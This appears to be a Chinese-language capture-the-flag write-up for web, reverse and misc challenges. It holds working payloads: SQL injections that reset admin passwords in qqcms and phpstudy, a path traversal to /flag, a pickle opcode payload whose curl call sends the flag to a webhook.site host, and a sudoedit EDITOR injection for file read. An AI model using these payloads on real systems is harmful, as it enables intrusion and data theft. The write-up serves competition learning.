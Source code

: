
# web
### qqcms
后台登录是预编译

---
搜索框处存在sql注入
`Search=%3FSearch%3D%7B%7Bloop+sql%3D%27update+qc_user+set+Password%3Dmd5%281%29%27%7D%7DAhisec%7B%7B%2Floop%7D%7D/admin/templates/edit.html?Name=../../../../../flag`

### php_again
> 要进入某个case,需要给action参数传递相应的数字和进制。case后面的数字表示:
> 
> 0_0: 数字0,表示十进制
> 0o0_111: 0o表示八进制,0o0_111表示八进制的73
> 0b0_111: 0b表示二进制,0b0_111表示二进制的7
> 0x0_555: 0x表示十六进制,0x0_555表示十六进制的555 1365
> 777_777: 十进制数字777_777

### phpstudy
`admin'; UPDATE ADMINS set PASSWORD ='d48be00285a53681ece5c64b104d66b7';-- `
修改密码进入后台,记得带上请求头 `X-Requested-With:XMLHttpRequest` 这样会被认为是ajax请求而直接访问后台

### easypy
#opcode  [相关文章](https://xz.aliyun.com/t/7436#toc-11)
扫描目录在 `/download` 下载源码,pyc需要反编译

```python
def girlfriends():
    if request.values.get('data'):
        data = request.values.get('data')
        numpydata = base64.b64decode(data)
        if b'R' in numpydata and b'bash' in numpydata or b'sh' in numpydata:
            return '不能走捷径啊'
        resp = None.loads(numpydata)
        return '可以的，要的就是一种感觉'
```

需要使用opcode执行命令

```python
import base64
import pickle


opcode=b'''(S'curl https://webhook.site/cf6b9f19-3b8a-4f5f-83e4-3d362b8a1304?`base64 /flag`'
ios
system
.'''

print(base64.b64encode(opcode))
```

### call


### ezrust
> 听说rust反汇编代码很难看？那就看看给了源码的rust代码好看吗？（flag在work目录）

```rust
use actix_files::NamedFile;
use actix_web::{App, HttpRequest, HttpResponse, HttpServer, Responder, Result, web, get, post, guard};
use std::path::PathBuf;


async fn index(req: HttpRequest) -> Result<NamedFile> {
    let mut path: PathBuf = req.match_info().query("filename").parse().unwrap();
    if path.to_str().expect("REASON").to_string().contains("p") {
        path = PathBuf::from("no");
    }
    Ok(NamedFile::open(path)?)
}

#[get("/")]
async fn hello() -> impl Responder {
    HttpResponse::Ok().body("Hello world!")
}

#[get("/{name}")]
async fn name(path: web::Path<(String)>) -> Result<String> {
    let name = path.into_inner();
    Ok(format!("Welcome {}!", name))
}


#[actix_web::main]
async fn main() -> std::io::Result<()> {
    HttpServer::new(|| {
        App::new()
            .service(hello)
            .service(name)
            .route("/{filename:.*}", web::get().to(index))
    })
        .bind(("0.0.0.0", 8000))?
        .run()
        .await
}
```

路由有三个

| 路由           | 匹配        |
| -------------- | ----------- |
| /              | 根目录      |
| {name}         | 任意        |
| {filename:.\*} | /除换行以外 |
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20230604140624.png)
读取漏洞,浏览器会自动吞掉.或者用postman


# reverse
### sum
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char *v3; // rbp
  int v4; // r14d
  unsigned int v5; // r12d
  __int64 i; // rbx
  char v7; // al
  int v8; // eax
  const char *v9; // rax

  v3 = (char *)&matrix;
  v4 = 1;
  v5 = 0;
  puts("Welcome to Solver!");
  do
  {
    for ( i = 0LL; i != 9; ++i )
    {
      if ( !v3[i] )     //待填区
      {
        v7 = getchar();
        if ( (unsigned __int8)(v7 - 49) > 8u )
          v4 = 0;
        else
          v3[i] = v7 - 48;
      }
      v8 = v3[i];
	  v5 += v8;     //v5是所有数之和
    }
    v3 += 9;
  }
  while ( v3 != (char *)&matrix + 81 );
  if ( v4 && (unsigned int)verify("Welcome to Solver!", argv) ) //验证数独
  {
    puts("You Win!");
    __snprintf_chk(buf, 32LL, 1LL, 32LL, "%d", v5);   
    v9 = (const char *)str2md5(buf, strlen(buf));//计算v5的md5,
    __printf_chk(1LL, "flag is: flag{%s}\n\n", v9);
    exit(0);
  }
  puts("Again~");
  return 0;
}
```

---
没想到是数独题
可以直接计算405的md5值

### Emoji Connect
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20230701191734.png)

是Excel的插件

### Pytrans
64位elf

# pwn

# crypto

# Misc
### Sudo
*世态炎凉,misc也有提权了*
#sudo
[参考](https://blog.csdn.net/weixin_46944519/article/details/129971508)
`sudo -l`
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20230515234227.png)
可以使用`sudoedit`

payload
`EDITOR='nano -- /flag' sudoedit /etc/GAMELAB`


在之前的环境中注入额外的双破折号时，这种行为会导致混乱用于查找编辑器的变量。
`EDITOR='vim -- /path/to/extra/file'`
使用这个值，命令行将被解析为:

`vim -- /path/to/extra/file -- /path/from/policy`


Sudo:
1.8.0~1.9.12p1均受影响


---
## *相关wp*
http://twe1v3.top/2023/05/2023%E6%98%A5%E7%A7%8B%E6%9D%AF%E6%98%A5%E5%AD%A3%E8%B5%9B-Writeup/#qqcms
https://www.cnblogs.com/backlion/p/17459760.html


2023-05-12   17:44
